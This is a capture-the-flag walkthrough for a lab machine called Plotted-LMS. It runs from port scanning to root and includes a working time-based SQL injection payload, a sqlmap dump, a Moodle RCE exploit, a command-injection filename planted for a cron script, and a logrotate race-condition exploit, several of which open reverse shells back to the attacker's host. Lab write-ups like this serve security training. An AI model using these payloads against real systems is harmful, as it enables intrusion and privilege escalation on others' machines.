# Plotted-lms Writeup

## by Disturbante

We can start the machine as always with an nmap scan of the host:
```bash
nmap -sC -sV -p- --min-rate=2000 10.10.84.228
```
output:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 67:af:92:c1:f0:9f:8a:18:62:8d:bf:ba:c4:58:8d:52 (RSA)
|   256 03:ca:42:df:ef:4b:3e:e6:91:0e:b2:bc:b4:42:1e:d1 (ECDSA)
|_  256 f1:ed:8a:8d:e4:87:d8:c7:69:c1:ca:2b:a4:dc:0c:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
873/tcp  open  http    Apache httpd 2.4.52 ((Debian))
|_http-server-header: Apache/2.4.52 (Debian)
|_http-title: Apache2 Debian Default Page: It works
8820/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
9020/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We got a lot of http ports, almost all of them running on Apache 2.4.41, except for one that is running Apache 2.4.52.<br>
A strange case but better start enumerating all of the services:

# www-data

In order to get find vulnerabilities i started scanning the port in ascending port number order.

## Port 80

We got the same page from all the webservers index, so i started directory bruteforcing one by one:
```bah
feroxbuster -u http://10.10.84.228/  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt,bak,js,old
```
I didn't got much from the port 80 scan, so i started the enumeration of the next port.

## Port 873

I started the same directory bruteforce on this port:
```bash
feroxbuster -u http://10.10.84.228:873/  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt,bak,js,old
```
output:
```bash
200      GET        1l        8w       37c http://10.10.84.228:873/secret.txt
301      GET        9l       28w      316c http://10.10.84.228:873/rail => http://10.10.84.228:873/rail/
```
On the path `/rail` we can see this page:
	

	
orrs is a ticket booking site, the source code can be found [here](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html).<br>
Online i found [this poc](https://www.exploit-db.com/exploits/50646) regarding an SQLI.<br>
So i tried visiting the vulnerable endpoint with this payload:
```bash
curl 'http://10.10.84.228:873/rail/?page=reserve&sid=1?page=reserve&sid=1%27)%20AND%20(SELECT%206842%20FROM%20(SELECT(SLEEP(10)))UsWr)%20AND%20(%27WBCm%27=%27WBCm'
``` 
We got around 10 seconds dealy, that means the target is vulnerable to time-based SQLI.<br>
So i passed this url to slqmap to let him do the hard work for me:
```bash
sqlmap 'http://10.10.84.228:873/rail/?page=reserve&sid=1?page=reserve&sid=1*' --batch --dump
```
from this first dump i found out the tables name:
	

	
from there i tried to extract the users and possibly some passwords:
```bash
sqlmap 'http://10.10.84.228:873/rail/?page=reserve&sid=1*' -D orrs --dump --batch -D orrs -T users
```
	

	
I tried to crack the hash like that:
```bash
echo '5765dcb76627ba4e2fd673e073def4ae' > admin_hash   #is not redacted cause is just a rabbit hole
hashcat -a 0 -m 0 admin_hash /usr/shares/wordlists/rockyou,txt
```
but no luck...<br>

So i tried passing over to the next port:

# Port 8820

As every port i runned a directory buster:
```bash
feroxbuster -u http://10.10.84.228:8820/  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt,bak,js,old
```
output:
	

	
We got this page:
	

	
I tried doing stuff like default credentials, exploit search; but they where either not working or actuall rabbit hole.<br>

# Port 9920

So we are finally to the last webserver, where we hope to find something.<br>
I started the classic dir scanner:
```bash
feroxbuster -u http://10.10.84.228:9020/  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt,bak,js,old
```
output:
	

	
we have another service...<br>
Here is the moodle page:
	

	
I searched online some exploits and found [this POC](https://github.com/lanzt/CVE-2020-14321) for an RCE.<br>
But in order to execute it i registered an account:
	

	
now that we are registered we have a teacher account, that means we can enroll a class with a manager.<br>
that's important because the role of the enrollment is passed as a GET paramether that we can modify (or we can just use the POC above).<br>
So i enrolled the teachers course where there also is an admin:
	

	
We also need the moodleSessionId that we can retrive in the cookie tab.<br>
now we can run the POC with the credentials of the user we registered:
```bash
git clone https://github.com/lanzt/CVE-2020-14321.git
cd CVE-2020-14321
pwncat-cs -lp 9999   #we can start our listener on another shell
python3 cve202014321.py
 python3 cve202014321.py -url http://10.10.84.228:9020/moodle -u disturbante -p Disturbante1. -cookie=skg9a2c11ca8vl13gjc080pidd -cmd='busybox nc 10.8.79.118 8888 -e bash' 
```
and we got the callback!!
	

	

# plot_admin

Now we need to escalate our privileges to to plot_admin user.<br>
To be a real more real world i tried doing some manual enumeration before actually trying linpeas and other stuff.<br>
so i searched some backup folder database or automatic script.<br>
eventually i found a crontab with:
```bash
cat /etc/crontab
```
output:
```bash
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
* *     * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
```
The root crontab for now is not accessible, but we can try to leverage the plot_admin one:
```bash
* *     * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
```
this script runs every minute executing a python script.<br>
Lets see if we can access the script:
```bash
ls -la /home/plot_admin/backup.py
```
output:
```bash
-rwxrwxr-- 1 plot_admin plot_admin 317 Feb  1  2022 /home/plot_admin/backup.py
```
that means we can read the file:
```bash
cat /home/plot_admin/backup.py
```
output:
```python
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
        for file in files:
                os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```
in this code there is a string concatenation without sanitizaion, in fact if we can access the moodle_location folder, meaning we can write a command as a file name.<br>
In the loop our file will be concatenated in the `os.system` instruction.<br>
I started another listener on my local machine:
```bash
pwncat-cs -lp 7777
```
Then i created this payload:
```bash
cd /var/www/uploadedfiles/filedir/
touch -- ';$(busybox nc 10.8.79.118 7777 -e bash);'
```
We got a shell:
	

	

# Root

Now we can continue the enumeration towards root user.<br>
In fact in the crontab file i found an interesting script:
```bash
* *     * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
```
This seems like a log backup script.<br>
Let's see if there are some logrotate script.<br>
To do so i uploaded pspy and waited for some script, and saw this:
	

	
This means we can maybe try the logrotten exploit with this [race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition).<br>
So i downloaded the logrotten repo and passed the binary on the victim machine since it has gcc installed.<br>
```bash
git clone https://github.com/whotwagner/logrotten.git
```
now i uploaded the c source file to the victim machine:
```bash
Ctrl + d
upload logrotten.c /tmp/logrotten.c
Ctrl + d
```
Now we can compile it on victim machine:
```bash
gcc logrotten.c -o logrotten
```
	

	
We compiled the binary and also tested that the version is vulnerable (3.15.0).<br>
for the exploit we need to create another payload to get executed:
```bash
echo -e '#!/bin/bash\nbusybox nc 10.8.79.118 5555 -e bash' > /tmp/payload.sh
chmod +x /tmp/payload.sh
```
We can now start another listener on our local machine:
```bash
pwncat-cs -lp 5555
```
To launch the exploit we need toleverage on of the files we saw above in the rsync command, so the final payload will be:
```bash
./logrotten -p payload.sh /home/plot_admin/.logs_backup/moodle_access
```
We finally have our call back!!